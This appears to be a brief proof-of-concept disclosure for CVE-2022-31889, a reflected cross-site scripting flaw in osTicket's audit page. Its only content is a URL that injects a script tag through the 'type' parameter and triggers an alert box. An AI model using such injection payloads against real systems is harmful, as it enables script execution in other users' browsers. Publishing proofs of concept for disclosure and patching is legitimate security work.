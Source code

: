 # CVE-2022-31889 for osTicket | Support Ticketing System

Reflected XSS
```
http://localhost/scp/audits.php?startData=&endDate=&type="><script>alert('reflectedXSS')</script>
```
